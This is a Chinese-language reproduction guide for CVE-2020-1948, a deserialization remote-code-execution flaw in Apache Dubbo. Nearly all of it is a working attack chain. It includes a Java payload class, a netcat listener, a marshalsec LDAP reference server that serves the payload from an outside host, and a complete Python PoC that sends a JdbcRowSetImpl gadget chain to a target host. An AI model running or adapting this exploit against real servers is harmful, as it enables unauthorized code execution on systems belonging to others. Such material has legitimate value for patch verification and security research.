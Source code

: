 # （CVE-2020-1948）Apache Dubbo 反序列化漏洞

### 一、漏洞简介

攻击者可以发送带有无法识别的服务名或方法名及某些恶意参数负载的RPC请求，当恶意参数被反序列化时将导致代码执行

### 二、漏洞影响

2.7.0 <= Apache Dubbo <= 2.7.7

2.6.0 <= Apache Dubbo <= 2.6.7

Apache Dubbo 全部 2.5.x 版本

### 三、复现过程

构造poc

```java
## exp.java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class exp {
    public exp(){
        try {
            java.lang.Runtime.getRuntime().exec("calc.exe");
        } catch (java.io.IOException e) {
            e.printStackTrace();
        }
    }
}
```

编译poc


```
javac exp.java
```

nc监听


```
nc -lvvp 12345
```

服务器开启web服务，并将生成好的exp.class放置web目录

启动 LDAP 代理服务


```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://www.baidu.com/#exp 81
```

marshalsec 下载：

https://download.0-sec.org/download/marshalsec-0.0.3-SNAPSHOT-all.jar

**py脚本测试**

安装依赖包


```
pip install dubbo-py
```

**运行**


```
python poc.py www.target.com 12345 ldap://www.yourweb:81/exp
```

除了通过返回信息来判断外，观察 LDAP 代理是否出现请求转发也是判断POC利用是否成功的重要依据:


```
# LDAP Refer Server Output
Send LDAP reference result for exp redirecting to http://www.baidu.com/exp.class
```

```python
# poc.py
# -*- coding: utf-8 -*-

import sys

from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient

if len(sys.argv) < 4:
  print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
  print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
  sys.exit()

client = DubboClient(sys.argv[1], int(sys.argv[2]))

JdbcRowSetImpl=new_object(
  'com.sun.rowset.JdbcRowSetImpl',
  dataSource=sys.argv[3],
  strMatchColumns=["foo"]
  )
JdbcRowSetImplClass=new_object(
  'java.lang.Class',
  name="com.sun.rowset.JdbcRowSetImpl",
  )
toStringBean=new_object(
  'com.rometools.rome.feed.impl.ToStringBean',
  beanClass=JdbcRowSetImplClass,
  obj=JdbcRowSetImpl
  )

resp = client.send_request_and_return_response(
  service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
  # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
  method_name='$invoke',
  args=[toStringBean])

output = str(resp)
if 'Fail to decode request due to: RpcInvocation' in output:
  print('[!] Target maybe not support deserialization.')
elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
   print('[+] Succeed.')
else:
  print('[!] Output:')
  print(output)
  print('[!] Target maybe not use dubbo-remoting library.')
```

**参考链接**

https://github.com/DSO-Lab/Dubbo-CVE-2020-1948/wiki